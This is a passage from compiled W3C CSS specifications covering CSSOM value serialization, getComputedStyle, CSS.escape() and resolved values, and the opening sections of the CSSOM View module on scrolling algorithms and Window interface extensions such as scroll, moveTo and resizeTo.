  8. Return *s*.

**`<frequency>`**

: The <number> component serialized as per <number> followed by the unit in its canonical form as defined in its respective specification.

  > **Issue:** Probably should distinguish between declared and computed / resolved values.

**`<identifier>`**

: The identifier serialized as an identifier.

**`<integer>`**

: A base-ten integer using digits 0-9 (U+0030 to U+0039) in the shortest form possible, preceded by "`-`" (U+002D) if it is negative.

**`<length>`**

: The <number> component serialized as per <number> followed by the unit in its canonical form as defined in its respective specification.

  > **Issue:** Probably should distinguish between declared and computed / resolved values.

**`<number>`**

: A base-ten number using digits 0-9 (U+0030 to U+0039) in the shortest form possible, using "`.`" to separate decimals (if any), rounding the value if necessary to not produce more than 6 decimals, preceded by "`-`" (U+002D) if it is negative.

  > **Note:** scientific notation is not used.

**`<percentage>`**

: The <number> component serialized as per <number> followed by the literal string "`%`" (U+0025).

**`<resolution>`**

: The resolution in dots per `CSS pixel` serialized as per <number> followed by the literal string "`dppx`".

**`<ratio>`**

: The numerator serialized as per <number> followed by the literal string "`/`", followed by the denominator serialized as per <number>.

**`<shape>`**

: The return value of the following algorithm:

  1. Let *s* be the string "`rect(`".
  2. Let *list* be a list of the CSS component values belonging to <shape>.
  3. Let each item in *list* be the result of invoking serialize a CSS component value of that item.
  4. Append the result of invoking serialize a comma-separated list on *list* to *s*.
  5. Append "`)`" (U+0029) to *s*.
  6. Return *s*.

**`<string>` `<font-family-name>`**

: The string serialized as a string.

**`<time>`**

: The time in seconds serialized as per <number> followed by the literal string "`s`".

**`<url>`**

: The absolute-URL string serialized as URL.

  > **Issue:** This should differentiate declared and computed `<url>` values, see [#3195](https://github.com/w3c/csswg-drafts/issues/3195).

<absolute-size>, <border-width>, <border-style>, <bottom>, <generic-font-family>, <generic-voice>, <left>, <margin-width>, <padding-width>, <relative-size>, <right>, and <top>, are considered macros by this specification. They all represent instances of components outlined above.

> **Issue:** One idea is that we can remove this section somewhere in the CSS3/CSS4 timeline by moving the above definitions to the drafts that define the CSS components.

###### 6.7.2.1. Examples {#cssom-1:serializing-css-values-examples}

Here are some examples of before and after results on declared values. The before column could be what the author wrote in a style sheet, while the after column shows what querying the DOM would return.

> **Example:** | Before | After |
> | --- | --- |
> | `background: none` | `background: rgba(0, 0, 0, 0)` |
> | `outline: none` | `outline: invert` |
> | `border: none` | `border: medium` |
> | `list-style: none` | `list-style: disc` |
> | `margin: 0 1px 1px 1px` | `margin: 0px 1px 1px` |
> | `azimuth: behind left` | `azimuth: 220deg` |
> | `font-family: a, 'b"', serif` | `font-family: "a", "b\"", serif` |
> | `content: url('h)i') '\[\]'` | `content: url("h)i") "[]"` |
> | `azimuth: leftwards` | `azimuth: leftwards` |
> | `color: rgb(18, 52, 86)` | `color: #123456` |
> | `color: rgba(000001, 0, 0, 1)` | `color: #000000` |
>
> > **Issue:** Some of these need to be updated per the new rules.

### 7. DOM Access to CSS Declaration Blocks {#cssom-1:dom-access-to-css-declaration-blocks}

#### 7.1.  The `ElementCSSInlineStyle` Mixin {#cssom-1:the-elementcssinlinestyle-mixin}

The `ElementCSSInlineStyle` mixin provides access to inline style properties of an element.

```webidl
interface mixin ElementCSSInlineStyle {
  [SameObject, PutForwards=cssText] readonly attribute CSSStyleProperties style;
};
```

The **`style`** attribute must return a `CSSStyleProperties` object whose readonly flag is unset, whose parent CSS rule is null, and whose owner node is this.

If the user agent supports HTML, the following IDL applies: [HTML]

```webidl
HTMLElement includes ElementCSSInlineStyle;
```

If the user agent supports SVG, the following IDL applies: [SVG11]

```webidl
SVGElement includes ElementCSSInlineStyle;
```

If the user agent supports MathML, the following IDL applies: [MathML-Core]

```webidl
MathMLElement includes ElementCSSInlineStyle;
```

#### 7.2. Extensions to the `Window` Interface {#cssom-1:extensions-to-the-window-interface}

```webidl
partial interface Window {
  [NewObject] CSSStyleProperties getComputedStyle(Element elt, optional CSSOMString? pseudoElt);
};
```

The **`getComputedStyle(elt, pseudoElt)`** method must run these steps:

1. Let *doc* be *elt*’s node document.
2. Let *obj* be *elt*.
3. If *pseudoElt* is provided, is not the empty string, and starts with a colon, then:

  1. Parse *pseudoElt* as a `<pseudo-element-selector>`, and let *type* be the result.
  2. If *type* is failure, or is a `::slotted()` or `::part()` pseudo-element, let *obj* be null.
  3. Otherwise let *obj* be the given pseudo-element of *elt*.

   > **Note:** CSS2 pseudo-elements should match both the double and single-colon versions. That is, both `:before` and `::before` should match above.
4. Let *decls* be an empty list of CSS declarations.
5. If *obj* is not null, and *elt* is connected, part of the flat tree, and its shadow-including root has a browsing context which either doesn’t have a browsing context container, or whose browsing context container is being rendered, set *decls* to a list of all longhand properties that are supported CSS properties, in lexicographical order, with the value being the resolved value computed for *obj* using the style rules associated with *doc*. Additionally, append to *decls* all the custom properties whose computed value for *obj* is not the guaranteed-invalid value.

   > **Issue:** There are UAs that handle shorthands, and all UAs handle shorthands that used to be longhands like `overflow`, see [#2529](https://github.com/w3c/csswg-drafts/issues/2529).

   > **Issue:** Order of custom properties is currently undefined, see [#4947](https://github.com/w3c/csswg-drafts/issues/4947).
6. Return a live `CSSStyleProperties` object with the following properties:

   **computed flag**

   : Set.

   **readonly flag**

   : Set.

   **declarations**

   : *decls*.

   **parent CSS rule**

   : Null.

   **owner node**

   : *obj*.

The `getComputedStyle()` method exposes information from CSS style sheets with the origin-clean flag unset.

### 8. Utility APIs {#cssom-1:utility-apis}

#### 8.1. The `CSS.escape()` Method {#cssom-1:the-css.escape()-method}

The `CSS` namespace holds useful CSS-related functions that do not belong elsewhere.

```webidl
[Exposed=Window]
namespace CSS {
  CSSOMString escape(CSSOMString ident);
};
```

> **Issue:** This was previously specified as an IDL interface that only held static methods. Switching to an IDL namespace is *nearly* identical, so it’s expected that there won’t be any compat concerns. If any are discovered, please report so we can consider reverting this change.

The **`escape(ident)`** operation must return the result of invoking serialize an identifier of *ident*.

> **Example:** For example, to serialize a string for use as part of a selector, the `escape()` method can be used:
>
> ```
> var element = document.querySelector('#' + CSS.escape(id) + ' > img');
> ```

> **Example:** The `escape()` method can also be used for escaping strings, although it escapes characters that don’t strictly need to be escaped:
>
> ```
> var element = document.querySelector('a[href="#' + CSS.escape(fragment) + '"]');
> ```

Specifications that define operations on the `CSS` namespace and want to store some state should store the state on the current global object’s associated `Document`.

### 9. Resolved Values {#cssom-1:resolved-values}

`getComputedStyle()` was historically defined to return the "computed value" of an element or pseudo-element. However, the concept of "computed value" changed between revisions of CSS while the implementation of `getComputedStyle()` had to remain the same for compatibility with deployed scripts. To address this issue this specification introduces the concept of a **resolved value**.

The resolved value for a given longhand property can be determined as follows:

**`background-color` `border-block-end-color` `border-block-start-color` `border-bottom-color` `border-inline-end-color` `border-inline-start-color` `border-left-color` `border-right-color` `border-top-color` `box-shadow` `caret-color` `color` `outline-color` A **resolved value special case property like `color`** defined in another specification**

: The resolved value is the used value.

**`line-height`**

: The resolved value is `normal` if the computed value is `normal`, or the used value otherwise.

**`block-size` `height` `inline-size` `margin-block-end` `margin-block-start` `margin-bottom` `margin-inline-end` `margin-inline-start` `margin-left` `margin-right` `margin-top` `padding-block-end` `padding-block-start` `padding-bottom` `padding-inline-end` `padding-inline-start` `padding-left` `padding-right` `padding-top` `width` A **resolved value special case property like `height`** defined in another specification**

: If the property applies to the element or pseudo-element and the resolved value of the `display` property is not `none` or `contents`, then the resolved value is the used value. Otherwise the resolved value is the computed value.

**`bottom` `left` `inset-block-end` `inset-block-start` `inset-inline-end` `inset-inline-start` `right` `top` A **resolved value special case property like `top`** defined in another specification**

: If the property applies to a positioned element and the resolved value of the `display` property is not `none` or `contents`, and the property is not over-constrained, then the resolved value is the used value. Otherwise the resolved value is the computed value.

**A **resolved value special case property** defined in another specification**

: As defined in the relevant specification.

**Any other property**

: The resolved value is the computed value.

### 10. IANA Considerations {#cssom-1:iana-considerations}

#### 10.1. Default-Style {#cssom-1:default-style}

This section describes a header field for registration in the Permanent Message Header Field Registry.

**Header field name**

: **Default-Style**

**Applicable protocol**

: http

**Status**

: standard

**Author/Change controller**

: W3C

**Specification document(s)**

: This document is the relevant specification.

**Related information**

: None.

---

## CSSOM View Module Level 1 {#cssom-view-1}

- **Shortname:** `cssom-view-1`
- **Editor's Draft:** [https://drafts.csswg.org/cssom-view/](https://drafts.csswg.org/cssom-view/)
- **Published TR:** [https://www.w3.org/TR/cssom-view-1/](https://www.w3.org/TR/cssom-view-1/)
- **W3C Status:** ED (revising)
- **Last Edited:** 2026-11-05

### 1. Background {#cssom-view-1:background}

Many of the features defined in this specification have been supported by browsers for a long period of time. The goal of this specification is to define these features in such a way that they can be implemented by all browsers in an interoperable manner. The specification also defines a some new features which allow for scroll customization.

### 2. Terminology {#cssom-view-1:terminology}

Terminology used in this specification is from DOM, CSSOM and HTML. [DOM] [CSSOM] [HTML]

An element *body* (which will be the `body` element) is **potentially scrollable** in an axis if all of the following conditions are true:

- *body* has an associated box.
- *body*’s parent element’s computed value of the `overflow-x` or `overflow-y` properties (whichever is in the given axis) is neither `visible` nor `clip`.
- *body*’s computed value of the `overflow-x` or `overflow-y` properties (whichever is in the given axis) is neither `visible` nor `clip`.

> **Note:** A `body` element that is potentially scrollable might not have a scrolling box. For instance, it could have a used value of `overflow` being `auto` but not have its content overflowing its content area.

A **scrolling box** of a viewport or element has two **overflow directions**, which are the block-end and inline-end directions for that viewport or element. Note that the initial scroll position might not be aligned with the scrolling area origin depending on the content-distribution properties, see [CSS Box Alignment 3 § 5.3 Alignment Overflow and Scroll Containers](#css-align-3:overflow-scroll-position).

The term **scrolling area** refers to a box of a viewport or an element that has the following edges, depending on the viewport’s or element’s scrolling box’s overflow directions.

| If the overflow directions are… | For a viewport | For an element |
| --- | --- | --- |
| rightward and downward | top edge The top edge of the initial containing block. right edge The right-most edge of the right edge of the initial containing block and the right margin edge of all of the viewport’s descendants' boxes. bottom edge The bottom-most edge of the bottom edge of the initial containing block and the bottom margin edge of all of the viewport’s descendants' boxes. left edge The left edge of the initial containing block. | top edge The element’s top padding edge. right edge The right-most edge of the element’s right padding edge and the right margin edge of all of the element’s descendants' boxes, excluding boxes that have an ancestor of the element as their containing block. bottom edge The bottom-most edge of the element’s bottom padding edge and the bottom margin edge of all of the element’s descendants' boxes, excluding boxes that have an ancestor of the element as their containing block. left edge The element’s left padding edge. |
| leftward and downward | top edge The top edge of the initial containing block. right edge The right edge of the initial containing block. bottom edge The bottom-most edge of the bottom edge of the initial containing block and the bottom margin edge of all of the viewport’s descendants' boxes. left edge The left-most edge of the left edge of the initial containing block and the left margin edge of all of the viewport’s descendants' boxes. | top edge The element’s top padding edge. right edge The element’s right padding edge. bottom edge The bottom-most edge of the element’s bottom padding edge and the bottom margin edge of all of the element’s descendants' boxes, excluding boxes that have an ancestor of the element as their containing block. left edge The left-most edge of the element’s left padding edge and the left margin edge of all of the element’s descendants' boxes, excluding boxes that have an ancestor of the element as their containing block. |
| leftward and upward | top edge The top-most edge of the top edge of the initial containing block and the top margin edge of all of the viewport’s descendants' boxes. right edge The right edge of the initial containing block. bottom edge The bottom edge of the initial containing block. left edge The left-most edge of the left edge of the initial containing block and the left margin edge of all of the viewport’s descendants' boxes. | top edge The top-most edge of the element’s top padding edge and the top margin edge of all of the element’s descendants' boxes, excluding boxes that have an ancestor of the element as their containing block. right edge The element’s right padding edge. bottom edge The element’s bottom padding edge. left edge The left-most edge of the element’s left padding edge and the left margin edge of all of the element’s descendants' boxes, excluding boxes that have an ancestor of the element as their containing block. |
| rightward and upward | top edge The top-most edge of the top edge of the initial containing block and the top margin edge of all of the viewport’s descendants' boxes. right edge The right-most edge of the right edge of the initial containing block and the right margin edge of all of the viewport’s descendants' boxes. bottom edge The bottom edge of the initial containing block. left edge The left edge of the initial containing block. | top edge The top-most edge of the element’s top padding edge and the top margin edge of all of the element’s descendants' boxes, excluding boxes that have an ancestor of the element as their containing block. right edge The right-most edge of the element’s right padding edge and the right margin edge of all of the element’s descendants' boxes, excluding boxes that have an ancestor of the element as their containing block. bottom edge The element’s bottom padding edge. left edge The element’s left padding edge. |

The **origin** of a scrolling area is the origin of the initial containing block if the scrolling area is a viewport, and otherwise the top left padding edge of the element when the element has its default scroll position. The x-coordinate increases rightwards, and the y-coordinate increases downwards.

The **beginning edges** of a particular set of edges of a box or element are the following edges:

**If the overflow directions are rightward and downward**

: The top and left edges.

**If the overflow directions are leftward and downward**

: The top and right edges.

**If the overflow directions are leftward and upward**

: The bottom and right edges.

**If the overflow directions are rightward and upward**

: The bottom and left edges.

The **ending edges** of a particular set of edges of a box or element are the following edges:

**If the overflow directions are rightward and downward**

: The bottom and right edges.

**If the overflow directions are leftward and downward**

: The bottom and left edges.

**If the overflow directions are leftward and upward**

: The top and left edges.

**If the overflow directions are rightward and upward**

: The top and right edges.

The `VisualViewport` object has an **associated document**, which is a `Document` object. It is the associated document of the owner `Window` of `VisualViewport`. The layout viewport is the owner `Window`’s viewport.

For the purpose of the requirements in this specification, elements that have a computed value of the `display` property that is `table-column` or `table-column-group` must be considered to have an associated box (the column or column group, respectively).

The term **SVG layout box** refers to a box generated by an SVG element which does not correspond to a CSS-defined `display` type. (Such as the box generated by a `rect` element.)

The term **transforms** refers to SVG transforms and CSS transforms. [SVG11] [CSS-TRANSFORMS-1]

When a method or an attribute is said to call another method or attribute, the user agent must invoke its internal API for that attribute or method so that e.g. the author can’t change the behavior by overriding attributes or methods with custom properties or functions in ECMAScript.

Unless otherwise stated, all string comparisons use is.

#### 2.1. CSS pixels {#cssom-view-1:css-pixels}

All coordinates and dimensions for the APIs defined in this specification are in `CSS pixels`, unless otherwise specified. [CSS-VALUES]

> **Note:** This does not apply to e.g. `matchMedia()` as the units are explicitly given there.

#### 2.2. Zooming {#cssom-view-1:zooming}

There are two kinds of zoom, **page zoom** which affects the size of the initial viewport, and the visual viewport scale factor which acts like a magnifying glass and does not affect the initial viewport or actual viewport. [CSS-DEVICE-ADAPT]

> **Note:** The "scale factor" is often referred to as "pinch-zoom"; however, it can be affected through means other than pinch-zooming. e.g. The user agent may zooms in on a focused input element to make it legible.

#### 2.3. Web-exposed screen information {#cssom-view-1:web-exposed-screen-information}

User agents may choose to hide information about the screen of the output device, in order to protect the user’s privacy. In order to do so in a consistent manner across APIs, this specification defines the following terms, each having a width and a height, the origin being the top left corner, and the x- and y-coordinates increase rightwards and downwards, respectively.

The **Web-exposed screen area** must return the result of the following algorithm:

1. Let *target* be this’s relevant global object’s browsing context.
2. Let *emulated screen area* be the WebDriver BiDi emulated total screen area of *target*.
3. If *emulated screen area* is not null, return *emulated screen area*.
4. Otherwise, return one of the following:

  - The area of the output device, in `CSS pixels`.
  - The area of the viewport, in `CSS pixels`.

The **Web-exposed available screen area** must return the result of the following algorithm:

1. Let *target* be this’s relevant global object’s browsing context.
2. Let *emulated screen area* be the WebDriver BiDi emulated available screen area for *target*.
3. If *emulated screen area* is not null, return *emulated screen area*.
4. Otherwise, return one of the following:

  - The available area of the rendering surface of the output device, in `CSS pixels`.
  - The area of the output device, in `CSS pixels`.
  - The area of the viewport, in `CSS pixels`.

### 3. Common Infrastructure {#cssom-view-1:common-infrastructure}

This specification depends on the WHATWG Infra standard. [INFRA]

#### 3.1. Scrolling {#cssom-view-1:scrolling}

A **non-interrupted scroll result** is a `ScrollResult` dictionary whose `interrupted` member is false.

An **interrupted scroll result** is a `ScrollResult` dictionary whose `interrupted` member is true.

When a user agent is to **perform a scroll** of a scrolling box *box*, to a given position *position*, an associated element or pseudo-element *element* and optionally a scroll behavior *behavior* (which is "`auto`" if omitted), the following steps must be run:

1. Abort any ongoing smooth scroll for *box*.
2. Resolve all pending scroll `Promise`s whose scroll container is *box* with an interrupted scroll result.
3. Let *scrollPromise* be a new `Promise`.
4. Return *scrollPromise*, and run the remaining steps in parallel.
5. If the user agent honors the `scroll-behavior` property and one of the following is true:

  - *behavior* is "`auto`" and *element* is not null and its computed value of the `scroll-behavior` property is `smooth`, or
  - *behavior* is `smooth`

   then perform a smooth scroll of *box* to *position*; otherwise, perform an instant scroll of *box* to *position*.
6. Wait until either the position has finished updating, or *scrollPromise* has been resolved.
7. If *scrollPromise* is still in the pending state:

  1. If the scroll position changed as a result of this call, emit the scrollend event.
  2. Resolve *scrollPromise* with a non-interrupted scroll result.

> **Note:** `behavior: "instant"` always performs an instant scroll by this algorithm.

> **Note:** If the scroll position did not change as a result of the user interaction or programmatic invocation, where no translations were applied as a result, then no scrollend event fires because no scrolling occurred.

When a user agent is to **perform a scroll** of a viewport to a given position *position* and optionally a scroll behavior *behavior* (which is "`auto`" if omitted) it must perform a coordinated viewport scroll by following these steps:

1. Let *doc* be the viewport’s associated `Document`.
2. Let *vv* be the `VisualViewport` whose associated document is *doc*.
3. Let *maxX* be the difference between viewport’s scrolling box’s width and the value of *vv*’s width attribute.
4. Let *maxY* be the difference between viewport’s scrolling box’s height and the value of *vv*’s height attribute.
5. Let *dx* be the horizontal component of *position* - the value *vv*’s pageLeft attribute
6. Let *dy* be the vertical component of *position* - the value of *vv*’s pageTop attribute
7. Let *visual x* be the value of *vv*’s offsetLeft attribute.
8. Let *visual y* be the value of *vv*’s offsetTop attribute.
9. Let *visual dx* be min(*maxX*, max(0, *visual x* + *dx*)) - *visual x*.
10. Let *visual dy* be min(*maxY*, max(0, *visual y* + *dy*)) - *visual y*.
11. Let *layout dx* be *dx* - *visual dx*
12. Let *layout dy* be *dy* - *visual dy*
13. Let *element* be *doc*’s root element if there is one, null otherwise.
14. Perform a scroll of the viewport’s scrolling box to its current scroll position + (*layout dx*, *layout dy*) with *element* as the associated element, and *behavior* as the scroll behavior. Let *scrollPromise1* be the `Promise` returned from this step.
15. Perform a scroll of *vv*’s scrolling box to its current scroll position + (*visual dx*, *visual dy*) with *element* as the associated element, and *behavior* as the scroll behavior. Let *scrollPromise2* be the `Promise` returned from this step.
16. Let *scrollPromise* be a new `Promise`.
17. Return *scrollPromise*, and run the remaining steps in parallel.
18. Wait until both *scrollPromise1* and *scrollPromise2* have settled.
19. If *scrollPromise1* and *scrollPromise2* were both resolved with a non-interrupted scroll result, resolve *scrollPromise* with a non-interrupted scroll result.
20. Otherwise, resolve *scrollPromise* with an interrupted scroll result.

> **Note:** Conceptually, the visual viewport is scrolled until it "bumps up" against the layout viewport edge and then "pushes" the layout viewport by applying the scroll delta to the layout viewport. However, the scrolls in the steps above are computed ahead of time and applied in the opposite order so that the layout viewport is scrolled before the visual viewport. This is done for historical reasons to ensure consistent scroll event ordering. See the [example](#css-viewport-1:example-vvanimation) for a visual depiction.

> **Example:** The user pinch-zooms into the document and ticks their mouse wheel, requesting the user agent scroll the document down by 50px. Because the document is pinch-zoomed in, the visual viewport has 20px of room to scroll. The user agent distributes the scroll by scrolling the visual viewport down by 20px and the layout viewport by 30px.

> **Example:** The user is viewing a document in a mobile user agent. The document focuses an offscreen text input element, showing a virtual keyboard which shrinks the visual viewport. The user agent must now bring the element into view in the visual viewport. The user agent scrolls the layout viewport so that the element is visible within it, then the visual viewport so that the element is visible to the user.

Scroll is **completed** when the scroll position has no more pending updates or translations and the user has completed their gesture. Scroll position updates include smooth or instant mouse wheel scrolling, keyboard scrolling, scroll-snap events, or other APIs and gestures which cause the scroll position to update and possibly interpolate. User gestures like touch panning or trackpad scrolling aren’t complete until pointers or keys have released.

When a user agent is to perform a **smooth scroll** of a scrolling box *box* to *position*, it must update the scroll position of *box* in a user-agent-defined fashion over a user-agent-defined amount of time. When the scroll is **completed**, the scroll position of *box* must be *position*. The scroll can also be **aborted**, either by an algorithm or by the user.

When a user agent is to perform an **instant scroll** of a scrolling box *box* to *position*, it must update the scroll position of *box* to *position*.

To **scroll to the beginning of the document** for a document *document*, follow these steps:

1. Let *viewport* be the viewport that is associated with *document*.
2. Let *position* be the scroll position *viewport* would have by aligning the beginning edges of the scrolling area with the beginning edges of *viewport*.
3. If *position* is the same as *viewport*’s current scroll position, and *viewport* does not have an ongoing smooth scroll, abort these steps.
4. Perform a scroll of *viewport* to *position*, and *document*’s root element as the associated element, if there is one, or null otherwise.

> **Note:** This algorithm is used when navigating to the `#top` fragment identifier, as defined in HTML. [HTML]

#### 3.2. WebIDL values {#cssom-view-1:webidl-values}

When asked to **normalize non-finite values** for a value *x*, if *x* is one of the three special floating point literal values (`Infinity`, `-Infinity` or `NaN`), then *x* must be changed to the value `0`. [WEBIDL]

### 4. Extensions to the `Window` Interface {#cssom-view-1:extensions-to-the-window-interface}

```webidl
enum ScrollBehavior { "auto", "instant", "smooth" };

dictionary ScrollOptions {
    ScrollBehavior behavior = "auto";
};
dictionary ScrollToOptions : ScrollOptions {
    unrestricted double left;
    unrestricted double top;
};

dictionary ScrollResult {
    required boolean interrupted;
};

partial interface Window {
    [NewObject] MediaQueryList matchMedia(CSSOMString query);
    [SameObject, Replaceable] readonly attribute Screen screen;
    [SameObject, Replaceable] readonly attribute VisualViewport? visualViewport;

    // browsing context
    undefined moveTo(long x, long y);
    undefined moveBy(long x, long y);
    undefined resizeTo(long width, long height);
    undefined resizeBy(long x, long y);

    // viewport
    [Replaceable] readonly attribute long innerWidth;
    [Replaceable] readonly attribute long innerHeight;

    // viewport scrolling
    [Replaceable] readonly attribute double scrollX;
    [Replaceable] readonly attribute double pageXOffset;
    [Replaceable] readonly attribute double scrollY;
    [Replaceable] readonly attribute double pageYOffset;
    Promise<ScrollResult> scroll(optional ScrollToOptions options = {});
    Promise<ScrollResult> scroll(unrestricted double x, unrestricted double y);
    Promise<ScrollResult> scrollTo(optional ScrollToOptions options = {});
    Promise<ScrollResult> scrollTo(unrestricted double x, unrestricted double y);
    Promise<ScrollResult> scrollBy(optional ScrollToOptions options = {});
    Promise<ScrollResult> scrollBy(unrestricted double x, unrestricted double y);

    // client
    [Replaceable] readonly attribute long screenX;
    [Replaceable] readonly attribute long screenLeft;
    [Replaceable] readonly attribute long screenY;
    [Replaceable] readonly attribute long screenTop;
    [Replaceable] readonly attribute long outerWidth;
    [Replaceable] readonly attribute long outerHeight;
    [Replaceable] readonly attribute double devicePixelRatio;
};
```

When the **`matchMedia(query)`** method is invoked these steps must be run:

1. Let *parsed media query list* be the result of parsing *query*.
2. Return a new `MediaQueryList` object, with this’s associated `Document` as the document, with *parsed media query list* as its associated media query list.

The **`screen`** attribute must return the `Screen` object associated with the `Window` object.

> **Note:** Accessing `screen` through a `WindowProxy` object might yield different results when the `Document` is navigated.

If the associated document is fully active, the **`visualViewport`** attribute must return the `VisualViewport` object associated with the `Window` object’s associated document. Otherwise, it must return null.

> **Note:** the VisualViewport object is only returned and useful for a window whose Document is currently being presented. If a reference is retained to a VisualViewport whose associated Document is not being currently presented, the values in that VisualViewport must not reveal any information about the browsing context.

The **`moveTo(x, y)`** method must follow these steps:

1. Optionally, return.
2. Let *target* be this’s relevant global object’s browsing context.
3. If *target* is not an auxiliary browsing context that was created by a script (as opposed to by an action of the user), then return.
4. If *target*’s top-level traversable’s Is Document Picture-in-Picture boolean is `true`, then return.
5. Optionally, clamp *x* and *y* in a user-agent-defined manner so that the window does not move outside the available space.
6. Move *target*’s window such that the window’s top left corner is at coordinates (*x*, *y*) relative to the top left corner of the output device, measured in `CSS pixels` of *target*. The positive axes are rightward and downward.

The **`moveBy(x, y)`** method must follow these steps:

1. Optionally, return.
2. Let *target* be this’s relevant global object’s browsing context.
3. If *target* is not an auxiliary browsing context that was created by a script (as opposed to by an action of the user), then return.
4. If *target*’s top-level traversable’s Is Document Picture-in-Picture boolean is `true`, then return.
5. Optionally, clamp *x* and *y* in a user-agent-defined manner so that the window does not move outside the available space.
6. Move *target*’s window *x* `CSS pixels` of *target* rightward and *y* CSS pixels of *target* downward.

The **`resizeTo(width, height)`** method must follow these steps:

1. Optionally, return.
2. Let *target* be this’s relevant global object’s browsing context.
3. If *target* is not an auxiliary browsing context that was created by a script (as opposed to by an action of the user), then return.
4. If *target*’s top-level traversable’s Is Document Picture-in-Picture boolean is `true`, then:

  1. If this’s relevant global object does not have transient activation, throw a "`NotAllowedError`" `DOMException`.
  2. Consume user activation given this’s relevant global object.
5. Optionally, clamp *width* and *height* in a user-agent-defined manner so that the window does not get too small or bigger than the available space.
6. Resize *target*’s window by moving its right and bottom edges such that the distance between the left and right edges of the viewport are *width* `CSS pixels` of *target* and the distance between the top and bottom edges of the viewport are *height* CSS pixels of *target*.
7. Optionally, move *target*’s window in a user-agent-defined manner so that it does not grow outside the available space.

The **`resizeBy(x, y)`** method must follow these steps:

1. Optionally, return.
2. Let *target* be this’s relevant global object’s browsing context.
3. If *target* is not an auxiliary browsing context that was created by a script (as opposed to by an action of the user), then return.
4. If *target*’s top-level traversable’s Is Document Picture-in-Picture boolean is `true`, then:

  1. If this’s relevant global object does not have transient activation, throw a "`NotAllowedError`" `DOMException`.
  2. Consume user activation given this’s relevant global object.
5. Optionally, clamp *x* and *y* in a user-agent-defined manner so that the window does not get too small or bigger than the available space.
6. Resize *target*’s window by moving its right edge *x* `CSS pixels` of *target* rightward and its bottom edge *y* CSS pixels of *target* downward.
7. Optionally, move *target*’s window in a user-agent-defined manner so that it does not grow outside the available space.

The **`innerWidth`** attribute must return the viewport width including the size of a rendered scroll bar (if any), or zero if there is no viewport.

> **Example:** The following snippet shows how to obtain the width of the viewport:
>
> ```
> var viewportWidth = innerWidth
> ```

The **`innerHeight`** attribute must return the viewport height including the size of a rendered scroll bar (if any), or zero if there is no viewport.

The **`scrollX`** attribute must return the x-coordinate, relative to the initial containing block origin, of the left of the viewport, or zero if there is no viewport.

The **`pageXOffset`** attribute must return the value returned by the `scrollX` attribute.

The **`scrollY`** attribute must return the y-coordinate, relative to the initial containing block origin, of the top of the viewport, or zero if there is no viewport.

The **`pageYOffset`** attribute must return the value returned by the `scrollY` attribute.

When the **`scroll()`** method is invoked these steps must be run:

1. If invoked with one argument, follow these substeps:

  1. Let *options* be the argument.
  2. Let *x* be the value of the `left` dictionary member of *options*, if present, or the viewport’s current scroll position on the x axis otherwise.
  3. Let *y* be the value of the `top` dictionary member of *options*, if present, or the viewport’s current scroll position on the y axis otherwise.
2. If invoked with two arguments, follow these substeps:

  1. Let *options* be null converted to a `ScrollToOptions` dictionary. [WEBIDL]
  2. Let *x* and *y* be the arguments, respectively.
3. Normalize non-finite values for *x* and *y*.
4. If there is no viewport, return a promise resolved with a non-interrupted scroll result and abort the remaining steps.
5. Let *viewport width* be the width of the viewport excluding the width of the scroll bar, if any.
6. Let *viewport height* be the height of the viewport excluding the height of the scroll bar, if any.
7. **If the viewport has rightward overflow direction**

   : Let *x* be max(0, min(*x*, viewport scrolling area width - *viewport width*)).

   **If the viewport has leftward overflow direction**

   : Let *x* be min(0, max(*x*, *viewport width* - viewport scrolling area width)).
8. **If the viewport has downward overflow direction**

   : Let *y* be max(0, min(*y*, viewport scrolling area height - *viewport height*)).

   **If the viewport has upward overflow direction**

   : Let *y* be min(0, max(*y*, *viewport height* - viewport scrolling area height)).
9. Let *position* be the scroll position the viewport would have by aligning the x-coordinate *x* of the viewport scrolling area with the left of the viewport and aligning the y-coordinate *y* of the viewport scrolling area with the top of the viewport.
10. If *position* is the same as the viewport’s current scroll position, and the viewport does not have an ongoing smooth scroll, return a promise resolved with a non-interrupted scroll result and abort the remaining steps.
11. Let *document* be the viewport’s associated `Document`.
12. Perform a scroll of the viewport to *position*, *document*’s root element as the associated element, if there is one, or null otherwise, and the scroll behavior being the value of the `behavior` dictionary member of *options*. Let *scrollPromise* be the `Promise` returned from this step.
13. Return *scrollPromise*.

   > **Issue:** User agents do not agree whether this uses the (coordinated) viewport perform a scroll or the scrolling box perform a scroll on the layout viewport’s scrolling box.

When the **`scrollTo()`** method is invoked, the user agent must act as if the `scroll()` method was invoked with the same arguments.

When the **`scrollBy()`** method is invoked, the user agent must run these steps:

1. If invoked with two arguments, follow these substeps:

  1. Let *options* be null converted to a `ScrollToOptions` dictionary. [WEBIDL]
  2. Let *x* and *y* be the arguments, respectively.
  3. Let the `left` dictionary member of *options* have the value *x*.
  4. Let the `top` dictionary member of *options* have the value *y*.
2. Normalize non-finite values for the `left` and `top` dictionary members of *options*.
3. Add the value of `scrollX` to the `left` dictionary member.
4. Add the value of `scrollY` to the `top` dictionary member.
5. Return the `Promise` returned from `scroll()` after the method is invoked with *options* as the only argument.

The **`screenX`** and **`screenLeft`** attributes must return the x-coordinate, relative to the origin of the Web-exposed screen area, of the left of the client window as number of `CSS pixels`, or zero if there is no such thing.

The **`screenY`** and **`screenTop`** attributes must return the y-coordinate, relative to the origin of the screen of the Web-exposed screen area, of the top of the client window as number of `CSS pixels`, or zero if there is no such thing.

The **`outerWidth`** attribute must return the width of the client window. If there is no client window this attribute must return zero.

The **`outerHeight`** attribute must return the height of the client window. If there is no client window this attribute must return zero.

The **`devicePixelRatio`** attribute must return the result of determining the device pixel ratio for this’s associated `Document`.

To **determine the device pixel ratio** for a `Document` *document*, run the following steps:

1. If there is no output device, return 1 and abort these steps.
2. Let *CSS pixel size* be the size of a `CSS pixel` at *document*’s current page zoom and using a scale factor of 1.0.
3. Let *device pixel size* be the vertical size of a device pixel of the output device.
4. Return the result of dividing *CSS pixel size* by *device pixel size*.

#### 4.1. The *features* argument to the `open()` method {#cssom-view-1:the-features-argument-to-the-open()-method}

HTML defines the `open()` method. This section defines behavior for position and size given in the *features* argument. [HTML]

To **set up browsing context features** for a browsing context *target* given a map *tokenizedFeatures*:

1. Let *x* be null.
2. Let *y* be null.
3. Let *width* be null.
4. Let *height* be null.
5. If *tokenizedFeatures*["left"] exists:

  1. Set *x* to the result of invoking the rules for parsing integers on *tokenizedFeatures*["left"].
  2. If *x* is an error, set *x* to 0.
  3. Optionally, clamp *x* in a user-agent-defined manner so that the window does not move outside the Web-exposed available screen area.
